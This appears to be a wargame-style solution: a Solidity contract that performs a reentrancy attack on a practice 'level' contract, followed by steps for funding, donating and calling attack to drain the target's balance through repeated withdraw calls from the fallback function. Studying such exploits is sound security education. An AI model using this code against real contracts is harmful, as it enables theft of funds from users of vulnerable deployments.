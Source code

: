 ```javascript
pragma solidity ^0.6.0;

contract ReentranceAttack {
    address payable public attack_addr;
    
    constructor(address payable addr) payable {
        attack_addr = addr;
    }
    
    function donate() public {
        attack_addr.call{value:1000000000000000}(abi.encodeWithSignature("donate(address)", address(this)));
    }
    
    function attack() public {
        (bool success, ) = attack_addr.call(abi.encodeWithSignature("withdraw(uint256)", 1000000000000000));
        require(success);
    }
    
    fallback() external payable {
        if (address(attack_addr).balance >= 1000000000000000) {
            (bool success, ) = attack_addr.call(abi.encodeWithSignature("withdraw(uint256)", 1000000000000000));
            require(success);
        }
    }

    function destroy(address payable addr) public {
        selfdestruct(addr);
    }
}
```

First initialize the contract with `2000000000000000 wei`. Then, call `donate` to deposit `1000000000000000 wei`. Finally, call `attack` to do the re-entrancy attack to keep siphoning the fund out of the level's contract.